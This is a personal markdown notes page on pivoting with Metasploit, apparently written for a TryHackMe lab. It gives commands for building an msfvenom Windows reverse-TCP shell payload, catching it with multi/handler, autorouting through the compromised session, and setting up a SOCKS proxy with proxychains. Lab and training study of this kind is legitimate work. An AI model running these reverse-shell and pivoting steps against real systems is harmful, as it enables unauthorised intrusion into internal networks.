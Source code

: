 
# Pivoting and Proxying with Metasploit

## Introduction

Pivoting is when an attacker gains foothold on the compromised machine, which then need to be  used to send additional web traffic through to allow previously inaccessible machines to be reached, pivoting though the machine to other in the internal networking. Consider reading [[Port-Redirection-And-Tunnelling]], [[Lateral-Movement]], [[Proxies]] and [[Evading-Firewalls]].

Terms used are like many in cyebr security some what interchangable, I personally am looking for to the standardisation that will occur  

### Setup

Get regular or meterpreter shell on target:
```bash
msfvenom -p windows/x64/$SHELL/reverse_tcp -f exe -o shell.exe LHOST=$IP LPORT=$LPORT
```

Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```ruby
use multi/handler
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```

For convert shell to meterpreter
```ruby
sessions -u -1 # -1 is the sessions number
```

### Auto-Routing our Traffic

```ruby
use post/multi/manage/autoroute
set SESSION 1
set netmask /CIDR
set subnet $IP
exploit
```

Configuration, [reference](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)
```ruby
route # display the active routes
route add <IP ADDRESS OF SUBNET> <NETMASK> <GATEWAY
	  remove
	  flush	# remove all routes from routing table
```

To change the autoroute from one route to another
```ruby
route remove IP/CIDR SESSIONID
route add IP/CIDR SESSIONID
route get
```

## Setting up Proxy with Metasploit

Note: Depending on what version of Metasploit you are using, the Proxy Server module will be different. 
MSF5 and lower will have auxiliary/server/socks4a or socks5, MSF6 and newer will have `socks/auxiliary/socks\_proxy`. With MSF6, you will need to specify if you want to use SOCKS4(a) or SOCKS5. See [[SOCKS5-Protocol]].
```ruby
use auxiliary/server/socks4a
# msf6 !!
use auxiliary/server/socks_proxy 
run srvhost=127.0.0.1 srvport=9050 version=4a
curl --proxy socks4a://localhost:950 http://$target_ip
```
Configure proxychains
```bash
vim /etc/proxychains.conf
# comment lines that aren't required or you'll create a longer misconfigured chain
socks$4-5 127.0.0.1 $AUXILIARY-SERVER-PORT-NUMBER-GOES-HERE
```


## References

[THM Alh4r3d's Pivoting with Metasploit day 9 for AoC 4](https://tryhackme.com/room/adventofcyber4#)